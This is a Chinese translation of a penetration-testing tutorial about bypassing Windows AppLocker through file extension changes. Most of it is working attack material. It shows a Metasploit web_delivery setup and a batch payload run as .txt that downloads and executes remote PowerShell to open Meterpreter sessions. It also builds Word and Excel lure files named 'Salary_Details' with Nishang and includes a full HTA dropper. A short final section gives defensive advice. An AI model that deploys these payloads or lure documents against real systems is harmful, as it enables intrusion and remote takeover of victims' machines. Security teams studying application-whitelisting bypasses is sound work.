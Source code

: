 > 原文链接: https://www.anquanke.com//post/id/86290 


# 【技术分享】AppLocker绕过之文件拓展名


                                阅读量   
                                **94636**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：pentestlab.blog
                                <br>原文地址：[https://pentestlab.blog/2017/06/12/applocker-bypass-file-extensions/](https://pentestlab.blog/2017/06/12/applocker-bypass-file-extensions/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p5.ssl.qhimg.com/t01794f7b5ba17f885e.png)](https://p5.ssl.qhimg.com/t01794f7b5ba17f885e.png)



译者：[牧野之鹰](http://bobao.360.cn/member/contribute?uid=877906634)

预估稿费：100RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿



要绕过AppLocker的限制通常是使用受信赖的MS的二进制文件来执行代码或者利用弱路径规则。然而在系统中还有一种可行的方法，系统已经配置了默认规则，而规则是允许用户使用CMD和PowerShell，这时用户可以通过使用具有不同文件扩展名的有效载荷来绕过AppLocker。

可以使用Metasploit Web传递模块来托管将要使用的powershell有效载荷，并从目标中检索传入的连接。

代码如下：

```
exploit/multi/script/web_delivery
```

[![](https://p1.ssl.qhimg.com/t015c96851ca86dbbc7.png)](https://p1.ssl.qhimg.com/t015c96851ca86dbbc7.png)

网络传递模块 – PowerShell payload

默认情况下，直接从CMD执行.bat文件将被阻止。

[![](https://p5.ssl.qhimg.com/t019b9112c49a803706.png)](https://p5.ssl.qhimg.com/t019b9112c49a803706.png)

AppLocker – bat文件上的限制

但是，通过将此文件的扩展名更改为.txt，并从CMD执行相同的有效载荷将返回一个Meterpreter会话。

代码如下：

```
cmd.exe /K &lt; payload.txt
```

[![](https://p5.ssl.qhimg.com/t017044d493af8f6fcd.png)](https://p5.ssl.qhimg.com/t017044d493af8f6fcd.png)

CMD-以txt的方式执行bat文件

Payload.txt:



```
@echo off
Powershell.exe -nop -w hidden -c IEX (new-objectnet.webclient)
.downloadstring('http://192.168.100.3:8080/9Q21wiSds9E0pxi');
```

**PAUSE**

在PowerShell中，可以使用Get-Content cmdlet读取txt文件的内容，Invoke-Expression可以运行payload-powershell.txt文件中包含的命令：

代码如下：

```
IEX (new-objectnet.webclient).Downloadstring
('http://192.168.100.3:8080/9Q21wiSds9E0pxi');
```

[![](https://p1.ssl.qhimg.com/t0147934add8df5c859.png)](https://p1.ssl.qhimg.com/t0147934add8df5c859.png)

PowerShell – 从txt执行有效载荷 

Metasploit侦听器将收到两个Meterpreter会话：

[![](https://p1.ssl.qhimg.com/t01c855eab3b6c88088.png)](https://p1.ssl.qhimg.com/t01c855eab3b6c88088.png)

Web Delivery – 获取Meterpreter会话

**<br>**

**File Extensions**



应允许应用程序（如Microsoft Word和Excel）执行，并且可以作为另一种方法来传递绕过AppLocker的恶意有效载荷。 Nishang PowerShell框架可以用于生成包含特定有效载荷的各种扩展，如：

.DOC

.XLS

.HTA

.LNK

应该注意的是，系统需要安装office，否则nishang将无法生成文件。

代码如下：



```
PS C:nishangClient&gt; Import-Module .Out-Word.ps1
PS C:nishangClient&gt; Import-Module .Out-Excel.ps1
PS C:nishangClient&gt; Out-Word -Payload "powershell.exe -nop -w hidden -c IEX (new-object net.webclient).downloadstring(
'http://192.168.100.3:8080/9Q21wiSds9E0pxi');"
Saved to file C:nishangClientSalary_Details.doc
 
PS C:nishangClient&gt; Out-Excel -Payload "powershell.exe -nop -w hidden -c IEX (new-object net.webclient).downloadstring
('http://192.168.100.3:8080/9Q21wiSds9E0pxi');"
Saved to file C:nishangClientSalary_Details.xls
```

[![](https://p0.ssl.qhimg.com/t0142cc9f736b2b42c1.png)](https://p0.ssl.qhimg.com/t0142cc9f736b2b42c1.png)

Nishang – 嵌有payload的Word和Excel

 Nishang还有两个PowerShell脚本，可以生成嵌有PowerShell payloads 的CHM文件和快捷方式。 需要注意的是，Nishang依赖于HTML Help Workshop应用程序来生成.CHM文件。

[![](https://p2.ssl.qhimg.com/t01c55cd5d3e6e8f4af.png)](https://p2.ssl.qhimg.com/t01c55cd5d3e6e8f4af.png)

Nishang – 编译嵌有payload的HTML文件和快捷方式

以下代码（.HTA文件）可用来绕过AppLocker和其他应用程序白名单软件。

代码如下：



```
&lt;HTML&gt;
&lt;HEAD&gt;
&lt;script language="VBScript"&gt;
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.100.3:8080/9Q21wiSds9E0pxi')"
&lt;/script&gt;
&lt;/HEAD&gt;
&lt;BODY&gt;
&lt;/BODY&gt;
&lt;/HTML&gt;
```

下面所有类型的文件都可以用来执行远程托管的powershell payload以绕过AppLocker规则。

[![](https://p0.ssl.qhimg.com/t01dd094e26c8ca6679.png)](https://p0.ssl.qhimg.com/t01dd094e26c8ca6679.png)

Nishang – 生成的文件扩展名

<br>



**总结**



如果只是启用了AppLocker 但是并没有阻止CMD和powershell,即使特定类型的文件被阻止了，代码仍然可以执行。如果某些可信赖的应用当前并没有提供特定业务（也就是空在那里没有起作用）的话，系统所有者和IT管理员应该删除他们，应为他们拥有执行代码的能力，这是潜在的危险。除此之外还应该对标准用户禁止CMD，DLL规则也应该开启。

 
